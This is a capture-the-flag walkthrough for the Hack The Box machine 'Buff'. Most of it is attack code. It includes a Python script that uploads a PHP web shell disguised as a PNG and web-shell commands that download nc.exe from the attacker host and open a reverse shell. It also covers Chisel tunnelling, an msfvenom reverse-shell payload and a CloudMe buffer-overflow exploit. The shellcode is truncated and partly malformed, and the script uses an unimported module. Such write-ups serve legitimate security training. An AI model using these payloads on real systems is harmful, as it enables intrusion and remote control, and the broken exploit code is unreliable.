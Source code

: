 
# HTB Buff Walkthrough

## Overview
Buff is a Windows machine with an easy difficulty level, running Gym Management System 1.0, which has an unauthenticated remote code execution vulnerability. After scanning the internal network, a service is discovered on port 8888. The installation file for this service is found on the disk, enabling local debugging. By setting up port forwarding, we can access the service remotely and exploit the vulnerability.

## Enumeration

```bash
nmap -sC -sV 10.10.10.198 -oA nmap -Pn
```

**Results:**

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
```

Visiting the site, I found out that it is using Gym Management Software 1.0, which suffers from an unauthenticated file upload vulnerability that can lead to Remote Code Execution (RCE).

From the website of Gym Management Software, we can download the source code and check for the `upload.php`.

## Exploitation

Using a simple Python script, we can upload a shell.

### Python Script:

```python
#!/usr/bin/env python3
import requests

def Main():
    url = "http://10.10.10.198:8080/upload.php?id=test"
    s = requests.Session()
    s.get(url, verify=False)

    PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
    png = {
        'file': (
            'test.php.png',
            PNG_magicBytes + '\n' + '<?php echo shell_exec($_GET["cmd"]); ?>',
            'image/png',
            {'Content-Disposition': 'form-data'}
        )
    }

    data = {'pupload': 'upload'}
    
    # Send the POST request to upload the file
    r = s.post(url=url, files=png, data=data, verify=False)
    print("Uploaded!")

if __name__ == "__main__":
    Main()
```

### Code Explanation

1. **Purpose of the Script:**
   The script is designed to exploit a file upload vulnerability on a web application running on `http://10.10.10.198:8080/upload.php`. It uploads a web shell disguised as a PNG image, allowing the attacker to execute commands remotely via the `cmd` parameter in the web shell.

2. **Key Components:**

   - **PNG_magicBytes:**
     PNG files start with specific magic bytes to indicate that they are valid PNG files. This script includes these bytes (`\x89\x50\x4e\x47\x0d\x0a\x1a`) at the start of the uploaded file to fool the application into thinking the file is a real PNG image.

   - **Web Shell Content:**
     The PHP code in the file being uploaded:
     ```php
     <?php echo shell_exec($_GET["cmd"]); ?>
     ```
     This code executes any command provided through the `cmd` parameter in the URL. For example:
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=whoami
     ```
     would execute the `whoami` command on the server.

   - **Upload Request:**
     The script creates a fake "image" with the required PNG magic bytes and the PHP web shell:
     ```python
     PNG_magicBytes + '\n' + '<?php echo shell_exec($_GET["cmd"]); ?>'
     ```
     The file is sent to the server using a POST request:
     ```python
     r = s.post(url=url, files=png, data=data, verify=False)
     ```

   - **Accessing the Web Shell:**
     Once uploaded, the web shell will be available at:
     ```
     http://10.10.10.198:8080/upload/test.php
     ```
     Commands can be executed by appending them as the `cmd` parameter:
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=<COMMAND>
     ```

     Use Burp Suite to execute this (URL encode):
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=Powershell Invoke-WebRequest -Uri http://10.10.14.6:80/nc.exe -Outfile /users/public/nc.exe
     ```

     Execute the `nc.exe`:
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=/users/public/nc.exe 10.10.14.6 9000 -e cmd.exe
     ```

## Privilege Escalation

The server is communicating with port 8888.

1. **Use Chisel to tunnel communication into the attacker's machine:**

   - [Chisel GitHub](https://github.com/jpillora/chisel)
   
   Upload `chisel.exe` to the victim's machine.

2. **Setup a listening server on the attacker's machine:**

   ```bash
   ./chisel server -p 9999 --reverse
   ```

3. **Listen to the server on the victim's side:**

   ```bash
   chisel.exe client 10.10.14.6:9999 R:8888:127.0.0.1:888
   ```

Once the tunnel is created, craft the buffer overflow exploit.

### Install ExploitDB:

```bash
sudo apt update && sudo apt -y install exploitdb
```

Search for the exploit:

```bash
searchsploit cloudme
```

Found: `CloudMe 1.11.2 - Buffer Overflow (PoC)`  
Location: `windows/remote/48389.py`

```bash
└──╼ [★]$ find / 2>/dev/null | grep 48389.py
/usr/share/exploitdb/exploits/windows/remote/48389.py
```

Copy to `HTB/Buff`:

```bash
cp /usr/share/exploitdb/exploits/windows/remote/48389.py ~/HTB/Buff/exploit.py
```

Now, craft the payload using `msfvenom`:

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=9001 EXITFUNC=thread -b "\x00\x0A\x0D" -f python
```

Put the payload in `exploit.py`:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

import socket
target = "127.0.0.1"
padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30
buf =  b""
buf += b"\xdb\xd7\xd9\x74\x24xf4\xbd\x8e\xc1\x90\xf2\x58"
buf += b"\x31xc9\xb1\x52\x31\x68\x17\x03\x68\x17\x83\x4e"
buf += b"\xc5\x72\x07\xb2\x2e\xf0\xe8\x4a\xaf\x95\x61\xaf"
# More shellcode here...
payload = buf
overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))
buf = padding1 + EIP + NOPS + payload + overrun
try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target,8888))
    s.send(buf)
except Exception as e:
    print(sys.exc_value)
```

## Setup a Listener on Port 9001
```bash
nc -lnvp 9001
```

Run the exploit:

```bash
python exploit.py
```
